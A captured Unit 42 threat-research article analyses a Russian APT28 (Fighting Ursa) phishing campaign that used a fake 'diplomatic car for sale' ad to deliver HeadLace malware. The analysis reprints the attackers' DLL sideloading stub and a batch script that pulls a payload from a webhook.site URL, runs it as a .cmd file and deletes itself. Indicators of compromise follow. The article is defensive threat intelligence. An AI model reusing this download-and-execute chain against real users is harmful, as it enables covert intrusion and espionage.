



[comment]:<> (===START PAGE 1===)

 Fighting Ursa Luring Targets With Car for Sale
 

 Menu
 

* [Tools](https://unit42.paloaltonetworks.com/tools/)
* [ATOMs](https://unit42.paloaltonetworks.com/atoms/)
* [Security Consulting](https://www.paloaltonetworks.com/unit42)
* [About Us](https://unit42.paloaltonetworks.com/about-unit-42/)
* [**Under Attack?**](https://start.paloaltonetworks.com/contact-unit42.html)

* [Threat Research Center](https://unit42.paloaltonetworks.com "Threat Research")
* [Threat Actor Groups](https://unit42.paloaltonetworks.com/category/threat-actor-groups/"Threat Actor Groups")
* [Nation-State Cyberattacks](https://unit42.paloaltonetworks.com/category/nation-state-cyberattacks/"Nation-State Cyberattacks")

[Nation-State Cyberattacks](https://unit42.paloaltonetworks.com/category/nation-state-cyberattacks/)
Fighting Ursa Luring Targets With Car for Sale
==============================================

 6
 

 min read
 

 Related Products
 

[
 Advanced URL Filtering](https://unit42.paloaltonetworks.com/product-category/advanced-url-filtering/"Advanced URL Filtering") 
[
 Advanced WildFire](https://unit42.paloaltonetworks.com/product-category/advanced-wildfire/"Advanced WildFire") 
[
 Cloud-Delivered Security Services](https://unit42.paloaltonetworks.com/product-category/cloud-delivered-security-services/"Cloud-Delivered Security Services") 
[
 Cortex](https://unit42.paloaltonetworks.com/product-category/cortex/"Cortex") 
[
 Cortex XDR](https://unit42.paloaltonetworks.com/product-category/cortex-xdr/"Cortex XDR") 
[
 Cortex XSIAM](https://unit42.paloaltonetworks.com/product-category/cortex-xsiam/"Cortex XSIAM") 
[
 Cortex XSOAR](https://unit42.paloaltonetworks.com/product-category/cortex-xsoar/"Cortex XSOAR") 

* 

 By: 

	+ [Unit 42](https://unit42.paloaltonetworks.com/author/unit42/)
* 

 Published: 
 2 August, 2024 at 3:00 AM PDT
* 

 Categories: 

	+ [Malware](https://unit42.paloaltonetworks.com/category/malware/)
	+ [Nation-State Cyberattacks](https://unit42.paloaltonetworks.com/category/nation-state-cyberattacks/)
	+ [Threat Actor Groups](https://unit42.paloaltonetworks.com/category/threat-actor-groups/)
	+ [Threat Research](https://unit42.paloaltonetworks.com/category/threat-research/)
* 

 Tags: 

	+ [Advanced Persistent Threat](https://unit42.paloaltonetworks.com/tag/advanced-persistent-threat/)
	+ [APT28](https://unit42.paloaltonetworks.com/tag/apt28/)
	+ [Fancy Bear](https://unit42.paloaltonetworks.com/tag/fancy-bear/)
	+ [Fighting Ursa](https://unit42.paloaltonetworks.com/tag/fighting-ursa/)
	+ [HeadLace](https://unit42.paloaltonetworks.com/tag/headlace/)
	+ [Phishing](https://unit42.paloaltonetworks.com/tag/phishing/)
	+ [Russia](https://unit42.paloaltonetworks.com/tag/russia/)

* 
* 

[Share
 ](# "Click here to share")
* 
* 
* 
* 
* 
* 
* 

 This post is also available in: 
[日本語
 

 (
 
 Japanese
 
 )](https://unit42.paloaltonetworks.jp/fighting-ursa-car-for-sale-phishing-lure/)

Executive Summary
-----------------

 A Russian threat actor we track as
 [Fighting Ursa](https://unit42.paloaltonetworks.com/tag/fighting-ursa/) 
 advertised a car for sale as a lure to distribute
 [HeadLace](https://malpedia.caad.fkie.fraunhofer.de/details/win.headlace) 
 backdoor malware.The campaign likely targeted diplomats and began as early as March 2024.Fighting Ursa (aka APT28, Fancy Bear and Sofacy) has been
 [associated with Russian military intelligence and classified as an advanced persistent threat (APT) [PDF]](https://strapi.eurepoc.eu/uploads/Eu_Repo_C_APT_profile_APT_28_4856c0a0ac.pdf) 
. 

 Diplomatic-car-for-sale phishing lure themes have been used by Russian threat actors for years.These lures tend to resonate with diplomats and get targets to click on the malicious content. 

 Unit 42 has previously observed other threat groups using this tactic.For example, in 2023, a different Russian threat group,
 [Cloaked Ursa](https://unit42.paloaltonetworks.com/cloaked-ursa-phishing/) 
 , repurposed an advertisement for a BMW for sale to target diplomatic missions within Ukraine.This campaign is not directly connected to the Fighting Ursa campaign described here.However, the similarity in tactics points to known behaviors of Fighting Ursa.The Fighting Ursa group is known for repurposing successful tactics – even
 [continuously exploiting known vulnerabilities for 20 months](https://unit42.paloaltonetworks.com/russian-apt-fighting-ursa-exploits-cve-2023-233397/) 
 after their cover was already blown. 

 The details of the March 2024 campaign, which we attribute to Fighting Ursa with a medium to high level of confidence, indicate the group targeted diplomats and relied on public and free services to host various stages of the attack.This article examines the infection chain from the attack. 

 Palo Alto Networks customers are better protected from the threats discussed in this article through our
 [Network Security](https://www.paloaltonetworks.com/network-security) 
 solutions, such as
 [Advanced WildFire](https://www.paloaltonetworks.com/network-security/advanced-wildfire) 
 and
 [Advanced URL Filtering](https://docs.paloaltonetworks.com/advanced-url-filtering) 
 , as well as our
 [Cortex](https://www.paloaltonetworks.com/cortex) 
 line of products. 

 If you think you might have been compromised or have an urgent matter, contact the
 [Unit 42 Incident Response team](https://start.paloaltonetworks.com/contact-unit42.html) 
. 

| **Related Unit 42 Topics** | [**APTs**](https://unit42.paloaltonetworks.com/tag/advanced-persistent-threat/)  ,  **[Fighting Ursa](https://unit42.paloaltonetworks.com/tag/fighting-ursa/)** |
| --- | --- |

Initial Lure
------------

 The
 [URL kicking off this infection chain](https://www.virustotal.com/gui/url/7721209735fc8e3d0ccd88bae7f7f37cfcc453288f82b85e57686192a8efd83f) 
 was hosted by a legitimate service named
 [Webhook.site](https://docs.webhook.site/) 
 , and it was submitted to VirusTotal on March 14, 2024.Webhook.site is a service for legitimate development projects, and it allows its users to create randomized URLs for various purposes like custom automation based on the characteristics of visitors to the URLs. 

 In this case, Fighting Ursa abused Webhook.site to craft a URL that returned
 [a malicious HTML page](https://www.virustotal.com/gui/file/cda936ecae566ab871e5c0303d8ff98796b1e3661885afd9d4690fc1e945640e) 
.Figure 1 below shows the HTML returned from the
 
 webhook.site
 
 URL. 

[comment]:<> (===START IMAGE DETECTED===)

[comment]:<> (===START EMBEDDED IMAGE EXTRACTION===)

10

16
</head>
17
<body></body>
18 </html>
[comment]:<> (===END EMBEDDED IMAGE EXTRACTION===)

[comment]:<> (===END IMAGE DETECTED===)

 Figure 1.HTML code used in the attack hosted on the Webhook.site service. 

 The HTML shown above in Figure 1 has multiple elements that attempt to automate the attack.First, it checks if the visiting computer is Windows-based.If not, it redirects to a decoy image on
 [a URL hosted by another legitimate provider](https://www.virustotal.com/gui/url/26df5d7ed6748ad3ea9e2e18db3e6535ef99cb4b1a0c46218f91db7626d3efd5) 
 , which is a free service named
 [ImgBB](https://imgbb.com/upload) 
.As the final payload is Windows based, this operating system check is probably an effort to ensure that further actions taken in the attack are only taken for Windows visitors.The HTML then creates a ZIP archive from Base64 text in the HTML, offers it for download and attempts to open it with the JavaScript
 
 click()
 
 function. 

 Figure 2 below shows
 [the decoy image](https://www.virustotal.com/gui/file/7c85ff89b535a39d47756dfce4597c239ee16df88badefe8f76051b836a7cbfb) 
 advertising a car for sale, specifically an Audi Q7 Quattro SUV.This fake advertisement is titled “Diplomatic Car For Sale.”
 

 The image provides different views of the vehicle.The image also contains contact details that are likely fake, as well as a phone number based in Romania.Finally, the image also lists the point of contact as the Southeast European Law Enforcement Center, possibly to lend this fake advertisement more credibility. 

[comment]:<> (===START IMAGE DETECTED===)

![Compilation of six photographs displaying a used Audi Q7 for sale.The top three images show the front, side, and rear exterior views of a black Audi parked on a street.The bottom left image features the car's dashboard, highlighting the odometer showing mileage at 150,390 km.The next two images provide different angles of the steering wheel and the control panel, showcasing the car interior.Inserted in the top-middle image, there is a text detail about the car, listing price, year, model, trim, transmission type, mileage, web contact details, condition statement, and availability, all uniformly typed in a clear font.](0_image_8.png)

[comment]:<> (===START EMBEDDED IMAGE EXTRACTION===)
DIPLOMATIC CAR FOR SALE
Model Audi Q7 Quatro
Engine 3.000 TDI
Fuel Diesel
Transmission:Automatic
Mileage 336.000 km
Year 2009
Price 5.500 Euro.Winter tires included in the price, perfect condition, available immediately
For more information, please contact
Mobile:+40
E-mail:@selec.org
Web:www.selec.org
1000
[comment]:<> (===END EMBEDDED IMAGE EXTRACTION===)

[comment]:<> (===END IMAGE DETECTED===)

 Figure 2.Diplomatic car for sale lure hosted on ImgBB. 

Downloaded Malware
------------------

 The downloaded ZIP archive is saved as
 [IMG-387470302099.zip](https://www.virustotal.com/gui/file/dad1a8869c950c2d1d322c8aed3757d3988ef4f06ba230b329c8d510d8d9a027)
 and contains three files listed below in Table 1. 

| **File Size** | **Modified Date and Time** | **File Name** |
| --- | --- | --- |
| 918,528 bytes | 2009-07-13 18:38 UTC | IMG-387470302099.jpg.exe |
| 9,728 bytes | 2024-03-13 00:37 UTC | WindowsCodecs.dll |
| 922 bytes | 2024-03-13 00:37 UTC | zqtxmo.bat |

 Table 1.Contents of the downloaded file
 
 IMG-387470302099.zip
 
. 

 Table 1 above shows that the first file
 
 IMG-387470302099.jpg.exe
 
 has a double file extension of
 
.jpg.exe
 
.Windows hosts with a default configuration hide file extensions, so the
 
.jpg.exe
 
 file extension only shows as
 
.jpg
 
 in the file name.This is a common tactic used by threat actors to trick potential victims into double-clicking the file, in this case believing it will open a car for sale advertisement. 

 The file named
 
 IMG-387470302099.jpg.exe
 
 is a copy of the legitimate Windows calculator file
 
 calc.exe
 
.This file is used to sideload the included DLL file
 
 WindowsCodecs.dll
 
 , which is a component of the
 [HeadLace](https://malpedia.caad.fkie.fraunhofer.de/details/win.headlace) 
 backdoor. 

 HeadLace is modular malware that executes in stages.This stage-based loading is probably designed to prevent detection and minimize the malware's exposure to analysts.The DLL file contains a function shown below in Figure 3. 

[comment]:<> (===START IMAGE DETECTED===)

[comment]:<> (===START EMBEDDED IMAGE EXTRACTION===)
BOOL _stdcall DllMain (HINSTANCE hinstDLL, DWORD fdw Reason, LPVOID 1pvReserved)
{
if (fdwReason == 1 )
system("zqtxmo.bat");
return 1;
[comment]:<> (===END EMBEDDED IMAGE EXTRACTION===)

[comment]:<> (===END IMAGE DETECTED===)

 Figure 3.Code in
 
 WindowsCodecs.dll
 
 file to run a file named
 
 zqtxmo.bat
 
. 

 This function is solely meant to execute the last file within the ZIP archive,
 
 zqtxmo.bat
 
.Figure 4 below shows the content of
 
 zqtxmo.bat
 
. 

[comment]:<> (===START IMAGE DETECTED===)

[comment]:<> (===START EMBEDDED IMAGE EXTRACTION===)
1@echo off
2 if not DEFINED IS MINIMIZED set IS_MINIMIZED=1 && start ""/min "%~dpnx0" ** && exit
3 start msedge data:text/html;base64,
4
PHRpdGx1Pk1NRy0zODc0NzAzMDIwOTkuanBnPC90aXRsZT48aWZyYW1lIHNyYz0iaHR0cHM6Ly93ZWJob29rLnNpdGUv
ZDI5MDM3N2MtODJiNS00NzY1LWFjYjgtNDU0ZWRmNjQyNWRkIiBzdHlsZT0icG9zaXRpb246Zml4ZWQ7IHRvcDowOyBs
ZWZ0OjA7IGJvdHRvbTowOyByaWdodDowOyB3aWR0aDoxMDAloyBoZWlnaHQ6MTAwJTsgYm9yZGVyOm5vbmU7IG1hcmdg
bjowOyBwYWRkaW5nOjA7IG92ZXJmbG930mhpZGRlbjsqeilpbmRleDo50Tk50Tk7Ij48L21mcmFtZT4=
timeout 15 > nul
move 'userprofile%\downloads\IMG-387470302099.jpg %programdata%\IMG-387470302099.cmd > nul
type nul > 'userprofile%\downloads\IMG-387470302099.jpg
8call %programdata%\IMG-387470302099.cmd
9 del/q/f/a %0 & exit
1 <title>IMG-387470302099.jpg</title>
2
<iframe src="https://webhook.site/d290377c-82b5-4765-acb8-454edf6425dd"
style="position:fixed; top:0; left:0; bottom:0; right:0; width:100%; height:100%;
border:none; margin:0; padding:0; overflow:hidden; z-index:999999;">
3 </iframe>
[comment]:<> (===END EMBEDDED IMAGE EXTRACTION===)

[comment]:<> (===END IMAGE DETECTED===)

 Figure 4.Contents of the
 
 zqtxmo.bat
 
 batch file. 

 This batch file starts a process for Microsoft Edge (
 
 start msedge
 
 ) to run content passed as Base64-encoded text.As shown above in Figure 4, the decoded text is a hidden iframe that retrieves content from
 [a different Webhook.site URL](https://www.virustotal.com/gui/url/844ac27e672a1fc6840a29b3c8443004b06469905b82dbbcf56dd5b53fea9484) 
. 

 The batch file saves content from this second Webhook.site URL as
 
 IMG387470302099.jpg
 
 in the user's downloads directory.It then moves the downloaded file into the
 
 %programdata%
 
 directory and changes the file extension from
 
.jpg
 
 to
 
.cmd
 
.Finally, the batch file executes
 
 IMG387470302099.cmd
 
 , then deletes itself as a way to remove any obvious trace of malicious activity. 

Attribution
-----------

 We attribute this activity with a medium to high level of confidence to Fighting Ursa based on the tactics, techniques and procedures (TTPs), characteristics of the attack infrastructure and the malware family attackers used. 

 This attack relies heavily on public and free services to host lures and various stages of the attack.Documentation by
 [IBM](https://securityintelligence.com/x-force/itg05-ops-leverage-israel-hamas-conflict-lures-to-deliver-headlace-malware/) 
 ,
 [Proofpoint](https://www.proofpoint.com/us/blog/threat-insight/ta422s-dedicated-exploitation-loop-same-week-after-week) 
 ,
 [Recorded Future](https://www.recordedfuture.com/grus-bluedelta-targets-key-networks-in-europe-with-multi-phase-espionage-camp) 
 and others reveal that while the infrastructure used by Fighting Ursa varies for different attack campaigns, the group frequently relies on these freely available services.Furthermore, the tactics from this campaign fit with previously documented Fighting Ursa campaigns, and the
 [HeadLace backdoor is exclusive to this threat actor](https://securityintelligence.com/x-force/itg05-ops-leverage-israel-hamas-conflict-lures-to-deliver-headlace-malware/) 
. 

Conclusion
----------

 Fighting Ursa is a motivated threat actor.The infrastructure the group uses has constantly changed and evolved, as noted in a
 [recent report](https://www.recordedfuture.com/grus-bluedelta-targets-key-networks-in-europe-with-multi-phase-espionage-camp) 
 from Recorded Future.Other industry reports have also shown various lures this actor uses in attempts to drop HeadLace malware. 

 We assess that Fighting Ursa will continue to use legitimate web services in its attack infrastructure.To defend against these attacks, defenders should limit access to these or similar hosting services as necessary.If possible, organizations should scrutinize the use of these free services to identify possible attack vectors. 

### Palo Alto Networks Protection and Mitigation

 Palo Alto Networks customers are better protected from the threats discussed above through the following products: 

* [Cortex XDR](https://www.paloaltonetworks.com/cortex/cortex-xdr) 
 detects the attack chain described above, among other protections in the Cortex XDR platform.* [Cortex XSIAM](https://docs-cortex.paloaltonetworks.com/p/XSIAM) 
 and
 [XSOAR](https://docs-cortex.paloaltonetworks.com/p/XSOAR) 
 have released
 [a response pack and playbook](https://xsoar.pan.dev/docs/reference/playbooks/fighting-ursa-luring-targets-with-car-for-sale) 
 for automatically detecting the Fighting Ursa threat actor.This playbook downloads the APT28 detection rules and performs extraction, enrichment, and tagging of indicators.It executes our generic Threat Hunting sub-playbook and subsequently provides analysts with recommended workarounds, empowering them to decide the best course of action with the enriched indicators.* [Advanced URL Filtering](https://docs.paloaltonetworks.com/advanced-url-filtering) 
 identifies known URLs associated with this activity as malicious.* The
 [Advanced WildFire](https://docs.paloaltonetworks.com/wildfire) 
 machine-learning models and analysis techniques have been reviewed and updated in light of the IoCs shared in this research.

 If you think you may have been compromised or have an urgent matter, get in touch with the
 [Unit 42 Incident Response team](https://start.paloaltonetworks.com/contact-unit42.html) 
 or call: 

* North America Toll-Free:866.486.4842 (866.4.UNIT42)
* EMEA:+31.20.299.3130
* APAC:+65.6983.8730
* Japan:+81.50.1790.0200

 Palo Alto Networks has shared these findings with our fellow Cyber Threat Alliance (CTA) members.CTA members use this intelligence to rapidly deploy protections to their customers and to systematically disrupt malicious cyber actors.Learn more about the
 [Cyber Threat Alliance](https://www.cyberthreatalliance.org) 
. 

Indicators of Compromise
------------------------

 HTML page hosted on webhook site with decoy image and payload zip file: 

* cda936ecae566ab871e5c0303d8ff98796b1e3661885afd9d4690fc1e945640e

 Car for sale image lure: 

* 7c85ff89b535a39d47756dfce4597c239ee16df88badefe8f76051b836a7cbfb

 ZIP file containing
 
 calc.exe
 
 , malicious DLL and BAT file: 

* dad1a8869c950c2d1d322c8aed3757d3988ef4f06ba230b329c8d510d8d9a027

 Legitimate
 
 calc.exe
 
 abused to sideload the malicious DLL: 

* c6a91cba00bf87cdb064c49adaac82255cbec6fdd48fd21f9b3b96abf019916b

 Malicious file named
 
 WindowsCodecs.dll
 
 sideloaded by
 
 calc.exe
 
: 

* 6b96b991e33240e5c2091d092079a440fa1bef9b5aecbf3039bf7c47223bdf96

 Batch file named
 
 zqtxmo.bat
 
 executed by the above malicious DLL: 

* a06d74322a8761ec8e6f28d134f2a89c7ba611d920d080a3ccbfac7c3b61e2e7

 URLs that hosted content for this campaign: 

* https://webhook.site/66d5b9f9-a5eb-48e6-9476-9b6142b0c3ae
* https://webhook.site/d290377c-82b5-4765-acb8-454edf6425dd
* https://i.ibb.co/vVSCr2Z/car-for-sale.jpg

Additional Resources
--------------------

* [GRU’s BlueDelta Targets Key Networks in Europe with Multi-Phase Espionage Campaigns [PDF]](https://go.recordedfuture.com/hubfs/reports/CTA-RU-2024-0530.pdf) 
 – Recorded Future
* [ITG05 operations leverage Israel-Hamas conflict lures to deliver Headlace malware](https://securityintelligence.com/x-force/itg05-ops-leverage-israel-hamas-conflict-lures-to-deliver-headlace-malware/) 
 – IBM
* [TA422’s Dedicated Exploitation Loop—the Same Week After Week](https://www.proofpoint.com/us/blog/threat-insight/ta422s-dedicated-exploitation-loop-same-week-after-week) 
 – Proofpoint

*Updated August 2, 2024, at 7:35 a.m.PT to add Cortex XSOAR and XSIAM product protections and playbook link.* 

*Updated August 5, 2024, at 8:37 a.m.PT to update Cortex XSOAR and XSIAM playbook link.* 

 Back to top
 

### Tags

* [Advanced Persistent Threat](https://unit42.paloaltonetworks.com/tag/advanced-persistent-threat/"Advanced Persistent Threat")
* [APT28](https://unit42.paloaltonetworks.com/tag/apt28/"APT28")
* [Fancy Bear](https://unit42.paloaltonetworks.com/tag/fancy-bear/"Fancy Bear")
* [Fighting Ursa](https://unit42.paloaltonetworks.com/tag/fighting-ursa/"Fighting Ursa")
* [HeadLace](https://unit42.paloaltonetworks.com/tag/headlace/"HeadLace")
* [Phishing](https://unit42.paloaltonetworks.com/tag/phishing/"phishing")
* [Russia](https://unit42.paloaltonetworks.com/tag/russia/"Russia")

[Threat Research Center](https://unit42.paloaltonetworks.com "Threat Research")
[Next:Identifying a BOLA Vulnerability in Harbor, a Cloud-Native Container Registry](https://unit42.paloaltonetworks.com/bola-vulnerability-impacts-container-registry-harbor/"Identifying a BOLA Vulnerability in Harbor, a Cloud-Native Container Registry")

### Table of Contents

* 

### Related Articles

* [Scam Attacks Taking Advantage of the Popularity of the Generative AI Wave](https://unit42.paloaltonetworks.com/cybersquatting-using-genai-keywords/"article - table of contents")
* [Threat Actor Groups Tracked by Palo Alto Networks Unit 42](https://unit42.paloaltonetworks.com/threat-actor-groups-tracked-by-palo-alto-networks-unit-42/"article - table of contents")
* [Operation Diplomatic Specter:An Active Chinese Cyberespionage Campaign Leverages Rare Tool Set to Target Governmental Entities in the Middle East, Africa and Asia](https://unit42.paloaltonetworks.com/operation-diplomatic-specter/"article - table of contents")

Related Resources
-----------------

[comment]:<> (===START IMAGE DETECTED===)

[comment]:<> (===START EMBEDDED IMAGE EXTRACTION===)
AI
[comment]:<> (===END EMBEDDED IMAGE EXTRACTION===)

[comment]:<> (===END IMAGE DETECTED===)

[
 Threat Research](https://unit42.paloaltonetworks.com/category/threat-research/)
[#### Scam Attacks Taking Advantage of the Popularity of the Generative AI Wave](https://unit42.paloaltonetworks.com/cybersquatting-using-genai-keywords/)
* [ChatGPT](https://unit42.paloaltonetworks.com/tag/chatgpt/"ChatGPT")
* [GenAI](https://unit42.paloaltonetworks.com/tag/genai/"GenAI")
* [Cybersquatting](https://unit42.paloaltonetworks.com/tag/cybersquatting/"cybersquatting")

[Read now
 ](https://unit42.paloaltonetworks.com/cybersquatting-using-genai-keywords/"Scam Attacks Taking Advantage of the Popularity of the Generative AI Wave")

[comment]:<> (===START IMAGE DETECTED===)

[comment]:<> (===START EMBEDDED IMAGE EXTRACTION===)
EREE
[comment]:<> (===END EMBEDDED IMAGE EXTRACTION===)

[comment]:<> (===END IMAGE DETECTED===)

[
 Threat Research](https://unit42.paloaltonetworks.com/category/threat-research/)
[#### Accelerating Analysis When It Matters](https://unit42.paloaltonetworks.com/accelerating-malware-analysis/)
* [Remote Access Trojan](https://unit42.paloaltonetworks.com/tag/remote-access-trojan/"Remote Access Trojan")
* [Memory detection](https://unit42.paloaltonetworks.com/tag/memory-detection/"memory detection")
* [Redline infostealer](https://unit42.paloaltonetworks.com/tag/redline-infostealer/"Redline infostealer")

[Read now
 ](https://unit42.paloaltonetworks.com/accelerating-malware-analysis/"Accelerating Analysis When It Matters")

[comment]:<> (===START IMAGE DETECTED===)

[comment]:<> (===START EMBEDDED IMAGE EXTRACTION===)
rand
Fig script src= {?urkrown}
local.config statusperor [error]
X
A
MALWARE
firetlog.origir set (278.56.34,4) if = Frame d
[comment]:<> (===END EMBEDDED IMAGE EXTRACTION===)

[comment]:<> (===END IMAGE DETECTED===)

[
 Threat Research](https://unit42.paloaltonetworks.com/category/threat-research/)
[#### Beware of BadPack:One Weird Trick Being Used Against Android Devices](https://unit42.paloaltonetworks.com/apk-badpack-malware-tampered-headers/)
* [Android APK](https://unit42.paloaltonetworks.com/tag/android-apk/"Android APK")
* [APK](https://unit42.paloaltonetworks.com/tag/apk/"APK")
* [Cerberus trojan](https://unit42.paloaltonetworks.com/tag/cerberus-trojan/"Cerberus trojan")

[Read now
 ](https://unit42.paloaltonetworks.com/apk-badpack-malware-tampered-headers/"Beware of BadPack:One Weird Trick Being Used Against Android Devices")

[comment]:<> (===START IMAGE DETECTED===)

[comment]:<> (===START EMBEDDED IMAGE EXTRACTION===)
وله
cl
Tysk
eu classemerit-swer brete" data-metrics-action="like Jap
4 classr
<a href="/sections/" data-atrice-action click
<button class="menu_toggle-submers" data-metrice-action "toggle great”ition for wha
cassette"/sections/national/cat-trics-cio ONDERSTOR
fr/ctions/science/" data-netrics-acting
Lastention/techning" data-metras-acti
Class 1905 "/sections/costove" data-etric-antilly PHO
<a clas
strics-action"click arts & life sirts
chitton slaggle-subers" data-etrics-action"toggle arts for Arts Left
Class sarts-life
<i clarefa"/books/" datatrics actitu
il claustrefa/sections/movies
<centes brefs"/sections/televisi dats-metrics actionslick television"televisio
<iteten" href"/sections/pop-culture/" data-eric-actionclick sa culture"stop cultur
dan sobre te tref/sections/food/atrics-actor//Cubes
Mate"/sections/art desig data-etrics-artinctus art & designsart Design/up
Itsecties/pengartstatic pengarterforsing
free" c
All songs co
href="https://www.pr.org/sections/clic//org/sections/music-features" data-trics-action features">
[comment]:<> (===END EMBEDDED IMAGE EXTRACTION===)

[comment]:<> (===END IMAGE DETECTED===)

[
 Threat Research](https://unit42.paloaltonetworks.com/category/threat-research/)
[#### DarkGate:Dancing the Samba With Alluring Excel Files](https://unit42.paloaltonetworks.com/darkgate-malware-uses-excel-files/)
* [Sandbox](https://unit42.paloaltonetworks.com/tag/sandbox/"Sandbox")
* [Microsoft Excel](https://unit42.paloaltonetworks.com/tag/microsoft-excel/"Microsoft Excel")
* [Malware-as-a-service](https://unit42.paloaltonetworks.com/tag/malware-as-a-service/"malware-as-a-service")

[Read now
 ](https://unit42.paloaltonetworks.com/darkgate-malware-uses-excel-files/"DarkGate:Dancing the Samba With Alluring Excel Files")

[
 Threat Research](https://unit42.paloaltonetworks.com/category/threat-research/)
[#### Dissecting GootLoader With Node.js](https://unit42.paloaltonetworks.com/javascript-malware-gootloader/)
* [Sandbox](https://unit42.paloaltonetworks.com/tag/sandbox/"Sandbox")
* [Memory detection](https://unit42.paloaltonetworks.com/tag/memory-detection/"memory detection")
* [Anti-analysis](https://unit42.paloaltonetworks.com/tag/anti-analysis/"anti-analysis")

[Read now
 ](https://unit42.paloaltonetworks.com/javascript-malware-gootloader/"Dissecting GootLoader With Node.js")

[
 Threat Actor Groups](https://unit42.paloaltonetworks.com/category/threat-actor-groups/)
[#### Threat Actor Groups Tracked by Palo Alto Networks Unit 42](https://unit42.paloaltonetworks.com/threat-actor-groups-tracked-by-palo-alto-networks-unit-42/)
* [Academic Serpens](https://unit42.paloaltonetworks.com/tag/academic-serpens/"Academic Serpens")
* [Agent Serpens](https://unit42.paloaltonetworks.com/tag/agent-serpens/"Agent Serpens")
* [Agonizing Serpens](https://unit42.paloaltonetworks.com/tag/agonizing-serpens/"Agonizing Serpens")

[Read now
 ](https://unit42.paloaltonetworks.com/threat-actor-groups-tracked-by-palo-alto-networks-unit-42/"Threat Actor Groups Tracked by Palo Alto Networks Unit 42")

[comment]:<> (===START IMAGE DETECTED===)

[comment]:<> (===START EMBEDDED IMAGE EXTRACTION===)
THAN
O
0
の
0
0
0
0
[comment]:<> (===END EMBEDDED IMAGE EXTRACTION===)

[comment]:<> (===END IMAGE DETECTED===)

[
 Threat Research](https://unit42.paloaltonetworks.com/category/threat-research/)
[#### Attackers Exploiting Public Cobalt Strike Profiles](https://unit42.paloaltonetworks.com/attackers-exploit-public-cobalt-strike-profiles/)
* [Cobalt Strike](https://unit42.paloaltonetworks.com/tag/cobalt-strike/"Cobalt Strike")
* [Malleable C2 profile](https://unit42.paloaltonetworks.com/tag/malleable-c2-profile/"malleable C2 profile")

[Read now
 ](https://unit42.paloaltonetworks.com/attackers-exploit-public-cobalt-strike-profiles/"Attackers Exploiting Public Cobalt Strike Profiles")

[comment]:<> (===START IMAGE DETECTED===)

[comment]:<> (===START EMBEDDED IMAGE EXTRACTION===)
01
01 10000
0
00111
00011
10010
1 1 1 1 0 0 1
00011
11001111
00011
0010010
0101110100
0001000
2040
10103000 10 0 0 0 1 1 1 0 0 0 0
100110000110
10011010
0110
1
010
00111
10101000 10
11
11040D1G
11010001
161100
11111001
11:110+1
11111001
100111 1
100110000110
༠ 1༠༠ąཟྭ*bbbba4%
11113080
119
toc
11010
01300
01100
01100
01100
1010
1 Ad 11001010
108
101010UUTITO
1111
Ո
U
0
1
[comment]:<> (===END EMBEDDED IMAGE EXTRACTION===)

[comment]:<> (===END IMAGE DETECTED===)

[
 Threat Research](https://unit42.paloaltonetworks.com/category/threat-research/)
[#### Operation Diplomatic Specter:An Active Chinese Cyberespionage Campaign Leverages Rare Tool Set to Target Governmental Entities in the Middle East, Africa and Asia](https://unit42.paloaltonetworks.com/operation-diplomatic-specter/)
* [Advanced Persistent Threat](https://unit42.paloaltonetworks.com/tag/advanced-persistent-threat/"Advanced Persistent Threat")
* [Backdoor](https://unit42.paloaltonetworks.com/tag/backdoor/"backdoor")
* [China](https://unit42.paloaltonetworks.com/tag/china/"China")

[Read now
 ](https://unit42.paloaltonetworks.com/operation-diplomatic-specter/"Operation Diplomatic Specter:An Active Chinese Cyberespionage Campaign Leverages Rare Tool Set to Target Governmental Entities in the Middle East, Africa and Asia")

[
 Threat Research](https://unit42.paloaltonetworks.com/category/threat-research/)
